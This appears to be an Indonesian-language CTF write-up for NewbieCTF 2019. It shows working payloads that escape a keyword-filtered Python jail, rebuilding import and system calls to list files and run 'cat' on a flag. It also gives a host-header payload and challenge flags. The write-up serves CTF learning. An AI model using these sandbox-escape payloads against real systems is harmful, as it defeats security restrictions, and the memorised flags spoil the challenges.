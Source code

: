 ```yaml
---
slug: writeup-newbiectf-2019
title: Writeup NewbieCTF 2019
date: 2019-11-03
author: Bardizba
keywords: [WRITE-UP NewbieCTF 2019]
year: 2019
description: WRITE-UP NewbieCTF 2019
excerpt: NewbieCTF 2019. A cool CTF from CTF Team KorNewbie, Three High school clubs(D.I.S, CPU, N.I.T)newbie CTF cocok buat yang mau belajar CTF, karna soal nya masih tergolong mudah. sayangnya forensiknya file nya gede - gede wkwk. dan web exploit nya cuma satu.
tags : ["ctf"]
---
```

![ctf](./gambar.png)
NewbieCTF 2019
A cool CTF from CTF Team KorNewbie, Three High school clubs(D.I.S, CPU, N.I.T)

newbie CTF cocok buat yang mau belajar CTF, karna soal nya masih tergolong mudah. sayangnya forensiknya file nya gede - gede wkwk. dan web exploit nya cuma satu.

# Pwnable
## Python Jail

    Hi! Welcome to pyjail!
    Escape Jail If you can!

    Author: SPark
    nc prob.vulnerable.kr 20001

saat dibuka nc-nya, terdapat sebuah python sandbox dengan kdoe seperti berikut yang akan mengeksekusi input pada perintah __exec(text)__ 

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")
    print(open(__file__).read())
    print("========================================================================")
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("No!!!")
            return
    else:
        exec(text)
if __name__ == "__main__":
    main()
```


biasanya sandbox seperti ini bisa kita akali dengan memanfaatkan *predifined variable/function* yang ada. di python kita bisa memanfaatkan variable __\_\_builtins\_\___.


karena code yang diberikan tidak memperbolehkan payload berisi keyword berikut : ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']. maka kita akali dengan fungsi join string yang ada di python.kita coba masukan payload berikut untuk mendapatkan list direktorinya: 
    
```python
print(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])).listdir('/home/python_jail'))
```
hasilnya : 

```python
['.bashrc', '.profile', '.bash_logout', 'flag', 'python_jail.py']
```

ternyata terdapat file *flag*. kita coba buka file flag tersebut dengan methos *os.system* pada python. lagi - lagi karena keyword system di banned pada code, maka kita bisa menggunakan fungsi getattr supaya bisa memanggil method system* menggunakan string.
kita menggunakan payload berikut :
    
```python
print(getattr(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])),"".join(['sys','tem']))('cat /home/python_jail/flag'))
```

dan dipatkan flag :

```bash
KorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```
<br/>
---
    
# Web Hacking
## Normal_Host
```
Normal_Host

This is Just a Normal Host! Can you hack?
Author: Y311J(신재욱)
LINK:
```

[LINK](https://internal.iwinv.net/)

Awalnya pada kategori web hacking memiliki 2 Chals, dan 2 chals tersebut berada pada satu server. saat saya coba mencari flag chals pertama(chals tersebut bertipe RCE PHP) ternyata malah ketemu flag untuk chals yang ini wkwk.

untuk mendapatkan flag pada chals ini masukan payload :
```
normalflag.iwinv.net:80
```

Flag : 
```
KorNewbie{H0$7_$P1it_A774cK_U$3s_N0RM^liZ47ioN&##$%%!}
```

<br/>
---
# Forensics
## Rec

```
REC? Kion vi celas?
```

diberikan file REC.exe, decompile file tersebut dengan IDA, lalu kita lihat function - function yang ada. dan ternyata terdapat fungsi yang menampilkan flag sesuai formatnya.

![ida-pro](./pics/ida.png)

kita copy dan lakukan find and replace menggunakan VSCode.

    Flag : KorNewbie{Recover_Signature}